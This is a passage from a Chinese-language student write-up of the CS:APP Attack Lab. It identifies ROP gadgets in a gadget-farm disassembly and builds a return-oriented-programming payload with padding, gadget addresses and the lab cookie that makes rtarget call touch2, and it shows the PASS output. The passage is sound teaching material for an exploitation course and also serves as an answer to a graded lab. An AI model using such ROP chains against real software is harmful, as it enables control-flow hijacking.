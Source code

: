 进行`./hex2match`之后，依然是`segmentation fault`

* **第三次尝试**

下面开始从另一方面去寻找

```assembly
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   

000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq  
```

可以看出

1. `mov %rax, %rdi <--> 48 89 c7`是从`0x4019a2`开始的

2. `pop %rax <--> 58`是从`0x4019ab`开始，执行`58 90 c3`相对来说，多了一个`90`指令在里面

   

接下来开始构建我们的答案

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # 填补40字节缓冲区

ab 19 40 00 00 00 00 00 # popq %rax 对应的getbuf的返回地址
fa 97 b9 59 00 00 00 00 # cookie
a2 19 40 00 00 00 00 00 # movq %rax, %rdi 
ec 17 40 00 00 00 00 00 # touch2 的首地址
```

进行测试，PASS！！！

```shell
dargon@dd:~/桌面/CSAPP/lab3_attack/target1$ ./hex2raw < ans4.txt > ans4_raw.txt
dargon@dd:~/桌面/CSAPP/lab3_attack/target1$ ./rtarget -q < ans4_raw.txt 
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```
